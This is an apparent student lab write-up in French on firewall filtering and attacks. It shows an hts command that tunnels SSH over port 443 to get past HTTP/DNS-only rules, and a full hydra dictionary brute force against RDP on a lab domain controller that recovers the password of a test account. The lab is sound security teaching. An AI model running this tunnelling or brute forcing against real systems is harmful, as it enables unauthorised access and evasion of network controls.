 ## EXERCICE 3 - Contournement de règles de filtrage IP

- Modifiez les règles de pare-feu pour n'autoriser que le trafic Web : HTTP, HTTPS et DNS.

![rule](rule.png)

on modifie les regles pour autoriser que le traffic Web 
HTTP, HTTPS et DNS.


- Montrez comment il est possible de faire transiter d'autres protocoles que ceux autorisés (RDP, SSH,...).

On peu faire de la tunelisation HTTP avec hts
````
sudo apt-get install hts
````
````
hts -p 443 -t ssh://localhost:22

````

# EXERCICE 4 - Attaques par force brute

### Créez un  compte utilisateur nommé jean sur Active Directory affectez lui le mot de passe P@ssw0rd.


![jean](jean.png)

### Activez le bureau à distance sur DC et W11.

![win](win.png)

![dc](dc.png)


### En utilisant un dictionnaire de mot de passe de votre choix, effectuez une attaque par force brute sur le service RDP (bureau à distance) de DC et/ou de W11. Pour simplifier l'opération, vous pouvez effectuer cette attaque depuis le LAN.


````
$ hydra -t 1 -V -f -l jean -P djaws.txt rdp://192.168.33.200
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-04 12:35:49
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 8 login tries (l:1/p:8), ~8 tries per task
[DATA] attacking rdp://192.168.33.200:3389/
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "Djaws" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "DJaws" - 2 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "DJAWS" - 3 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "djaws" - 4 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "DJAWS!" - 5 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "P@ssw0rd" - 6 of 8 [child 0] (0/0)
[3389][rdp] host: 192.168.33.200   login: jean   password: P@ssw0rd
[STATUS] attack finished for 192.168.33.200 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-04 12:35:55
````
